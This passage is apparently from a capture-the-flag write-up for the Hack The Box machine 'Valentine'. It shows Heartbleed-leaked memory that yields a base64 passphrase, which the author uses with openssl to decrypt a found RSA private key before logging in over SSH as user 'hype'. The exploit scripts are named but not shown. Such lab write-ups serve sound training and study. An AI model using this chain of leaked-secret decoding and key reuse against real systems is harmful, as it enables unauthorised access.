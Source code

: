 ```bash
  0160: F5 23 CB 65 E6 4B 34 F2 1B 72 DE 1B C7 EE 60 3A  .#.e.K4..r....`:                                                                                                                                                                    
  0170: C4 B3 EA 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................                                                                                                                                                                    
  0180: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................                                                                                                                                                                    
  0190: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
```

The interesting text is `$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==`. I try to decode it using the decoder site found:

```
Your input:

aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==

Your encoded input:

heartbleedbelievethehype
```

That may be the password for the for the ssh key, but first I need to decrypt the private key:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/valentine]
└─$ openssl rsa -in id_rsa -out decrypted_id_rsa                                                                                                                                                                                       130 ⨯
Enter pass phrase for id_rsa:
writing RSA key
                                                                                                                                                                                                                                             
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/valentine]
└─$ ls
32764.py  decrypted_id_rsa  gobuster-https.txt  gobuster.txt  heartbleed.py  id_rsa  id_rsa_hash.txt  index.jpeg  nmapAllPorts.txt  nmapDeepScan.txt  results
```

So now I try it again to log in with SSH. That did not work, so I may change the user. I found the key in this URL: [https://valentine.htb/dev/hype_key](https://valentine.htb/dev/hype_key), so the username may be hype:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/valentine]
└─$ ssh hype@valentine.htb -i decrypted_id_rsa
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Mon Aug 23 06:50:16 2021 from 10.10.14.10
hype@Valentine:~$ whoami
hype
```
